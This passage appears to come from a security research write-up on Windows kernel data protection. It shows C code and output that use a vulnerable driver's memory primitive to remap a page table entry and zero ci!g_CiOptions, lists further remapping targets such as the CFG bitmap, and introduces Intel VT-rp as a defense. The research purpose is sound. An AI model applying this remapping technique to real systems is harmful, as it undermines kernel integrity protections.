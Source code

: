         // Show the current ci!g_CiOptions value
        UINT32 cioptions_value = -1;
        dbutil_read(hDevice, cioptions_addr, &cioptions_value, sizeof(cioptions_value));
        printf("ci!g_CiOptions:\n");
        printf("0x%llx  %08x\n", cioptions_addr, cioptions_value);

        // Change the value of PTE to point to the new GPA
        printf("\nRemapping LA of ci!g_CiOptions\n\n");
        dbutil_write(hDevice, pte_addr, &new_pte_value, sizeof(new_pte_value));

        // Show the current ci!g_CiOptions value
        cioptions_value = -1;
        dbutil_read(hDevice, cioptions_addr, &cioptions_value, sizeof(cioptions_value));
        printf("ci!g_CiOptions:\n");
        printf("0x%llx  %08x\n", cioptions_addr, cioptions_value);
    }
    ```

    Executing the above code shows `ci!g_CiOptions` became zero after remapping.
    ```
    ...
    ci!g_CiOptions:
    0xfffff8024b082004  0001c006

    Remapping LA of ci!g_CiOptions

    ci!g_CiOptions:
    0xfffff8024b082004  00000000
    ```

At this point, we effectively modified the contents of the variable that is supposed to be read-only with KDP.

Important to note that making `ci!g_CiOptions` zero under this setup (ie, HVCI enabled) does not let you load an unsigned driver. The secure kernel still performs its own certificate check, detects the issue, and bug checks the system (<a name="body1">[*1](#note1)</a>).

Instead, it is more interesting to think about new targets of this attack. Taking kernel-mode Code Flow Guard (CFG) as an example, Windows maintains the bitmap that indicates valid destinations of indirect calls. For CFG to be effective against kernel-mode exploits, this bitmap is write-protected through EPT. An attacker, however, might be able to remap the LA of the bitmap to a new GPA to make her shell-code valid destination. Another approach is replacing a sensitive function pointers as demonstrated in [Code Execution against Windows HVCI](https://datafarm-cybersecurity.medium.com/code-execution-against-windows-hvci-f617570e9df0) by [Worawit](https://twitter.com/sleepya_).

Really, anything marked as read-only in EPT could be an interesting target of the remapping attack. On the above-mentioned Windows setup, [there are several such regions](https://gist.github.com/tandasat/a4092484c63b0390b45e93140f080795).


## Intel VT Redirect Protection (VT-rp)

Preventing the remapping attack without substantial performance impact is deemed unachievable. A hypervisor could make the guest paging structures read-only and inspect each write operation, but that incurs a non-negligible performance impact due to frequent VM-exit. Hence, Intel came up with a processor extension branded as Intel VP Redirect Protection (VT-rp).
